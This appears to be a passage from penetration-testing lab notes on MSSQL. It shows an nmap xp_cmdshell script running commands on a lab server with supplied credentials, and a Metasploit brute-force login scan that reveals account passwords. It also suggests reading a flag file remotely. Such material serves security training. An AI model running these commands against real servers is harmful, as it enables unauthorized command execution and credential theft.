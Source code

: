 To run a command, we can use the following command:

```sh
root@attackdefense:~# nmap 10.5.29.39 -p 1433 -sV --script=ms-sql-xp-cmdshell --script-args mssql.username=admin,mssql.password=anamaria,ms-sql-xp-cmdshell.cmd="ipconfig"
Starting Nmap 7.91 ( https://nmap.org ) at 2023-12-29 15:41 IST
Nmap scan report for 10.5.29.39
Host is up (0.0017s latency).

PORT     STATE SERVICE  VERSION
1433/tcp open  ms-sql-s Microsoft SQL Server 2019 15.00.2000.00; RTM
| ms-sql-xp-cmdshell: 
|   [10.5.29.39:1433]
|     Command: ipconfig
|       output
|       ======
|       Null
|       Windows IP Configuration
|       Null
|       Null
|       Ethernet adapter Ethernet:
|       Null
|          Connection-specific DNS Suffix  . : ap-south-1.compute.internal
|          Link-local IPv6 Address . . . . . : fe80::561:df8c:335e:33f3%3
|          IPv4 Address. . . . . . . . . . . : 10.5.29.39
|          Subnet Mask . . . . . . . . . . . : 255.255.240.0
|          Default Gateway . . . . . . . . . : 10.5.16.1
|       Null
|       Tunnel adapter isatap.ap-south-1.compute.internal:
|       Null
|          Media State . . . . . . . . . . . : Media disconnected
|          Connection-specific DNS Suffix  . : ap-south-1.compute.internal
|       Null
|       Tunnel adapter Local Area Connection* 3:
|       Null
|          Media State . . . . . . . . . . . : Media disconnected
|          Connection-specific DNS Suffix  . : 
|_      Null
```

Instead of ipconfig, we can also do other things like read a file using `type c:\flag.txt`.

## MSSQL Metasploit

Instead of Nmap we can use Metasploit too for the MSSQL enumeration and brute force

```sh
msf6 > use auxiliary/scanner/mssql/mssql_login 
msf6 auxiliary(scanner/mssql/mssql_login) > set user_file /root/Desktop/wordlist/common_users.txt
user_file => /root/Desktop/wordlist/common_users.txt
msf6 auxiliary(scanner/mssql/mssql_login) > set pass_file /root/Desktop/wordlist/100-common-passwords.txt
pass_file => /root/Desktop/wordlist/100-common-passwords.txt
msf6 auxiliary(scanner/mssql/mssql_login) > set verbose false
verbose => false
msf6 auxiliary(scanner/mssql/mssql_login) > run

[*] 10.5.23.109:1433      - 10.5.23.109:1433 - MSSQL - Starting authentication scanner.
[+] 10.5.23.109:1433      - 10.5.23.109:1433 - Login Successful: WORKSTATION\sa:
[+] 10.5.23.109:1433      - 10.5.23.109:1433 - Login Successful: WORKSTATION\dbadmin:anamaria
[+] 10.5.23.109:1433      - 10.5.23.109:1433 - Login Successful: WORKSTATION\auditor:nikita
[*] 10.5.23.109:1433      - Scanned 1 of 1 hosts (100% complete)
```


[^1]: setg is used to declare the rhosts as global so that we don't have to specify it again and again in a single session.